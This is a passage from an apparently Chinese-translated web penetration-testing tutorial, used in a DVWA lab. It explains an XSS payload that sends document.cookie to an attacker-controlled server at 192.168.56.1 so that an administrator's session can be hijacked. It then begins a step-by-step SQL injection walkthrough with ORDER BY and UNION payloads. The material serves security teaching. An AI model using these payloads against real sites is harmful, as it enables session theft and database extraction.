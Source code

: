 ### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用JavaScript 的XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存cookie值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。

### 更多

不仅仅是保存会话 Cookie 到文件，恶意服务器也可以使用这些cookie 来向应用发送请求来冒充正常用户，以便执行操作，例如添加或删除评论、上传图片或创建新用户，甚至是管理员。

## 6.7 逐步执行基本的 SQL 注入

我们在第四章了解了如何检测 SQL 注入。这个秘籍中，我们会利用这个注入，并提取数据库的信息。

### 操作步骤

1.  我们已经知道了 DVWA 存在SQL 注入的漏洞。所以我们使用 OWASP Mantra 登录，之后访问`http://192.168.56.102/dvwa/vulnerabilities/ sqli/`。

2.  在检测 SQL 注入存在之后，下一步就是查询，准确来说就是结果有多少列。在 ID 框中输入任何数字之后点击`Submit`。

3.  现在，打开 HackBar（按下F9）并点击`Load URL`。地址栏中的 URL 应该出现在 HackBar 内。

4.  在 HackBar 中，我们将`id`参数的值替换为`1' order by 1 -- '`，并点击`Execute`。

5.  我们通过执行请求，持续增加`order`数字后面的值，直到发生错误。这里例子中，它在`3`的时候发生。

    ![](../img/0c68c4a5f0d2da455ab17755f6733f91.png)

6.  现在，我们知道了请求由两列。让我们尝试是否能使用 UNION 语句来提取一些信息。现在将`id`的值设为`1' union select 1,2 -- '`并点击`Excecute`。
